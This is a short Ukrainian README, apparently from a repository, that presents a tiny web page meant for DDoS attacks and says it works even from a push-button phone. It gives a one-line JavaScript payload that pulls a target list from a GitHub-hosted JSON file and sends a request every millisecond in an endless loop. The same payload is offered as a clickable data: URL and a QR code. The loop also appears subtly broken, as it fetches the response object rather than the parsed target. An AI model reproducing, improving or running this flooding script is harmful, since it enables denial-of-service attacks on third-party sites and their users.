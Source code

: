 # Lite

Найменша сторінка для дудосу, можна дудосити навіть з кнопочного телефону!

Сторінка написана на XHTML

---

## Ддос на HTML5
```html
<script>let f=fetch;f('https://raw.githubusercontent.com/xzyallzjx-231/iouzjla-612/main/40.json').then(async r=>{let p=JSON.parse(await r.text())[0].page,s=setTimeout;s(async function a(){await f(r);s(a,1)},1)})</script>
```

### Відскануй QR-Код щоб випробувати

<img src="../public/qrcode-html5-ddos.png" width="150" alt="QR-Код" title="Відскануй мене">

### Або перейди по цьому посиланню

`data:text/html,<script>let f=fetch;f('https://raw.githubusercontent.com/xzyallzjx-231/iouzjla-612/main/40.json').then(async r=>{let p=JSON.parse(await r.text())[0].page,s=setTimeout;s(async function a(){await f(r);s(a,1)},1)})</script>`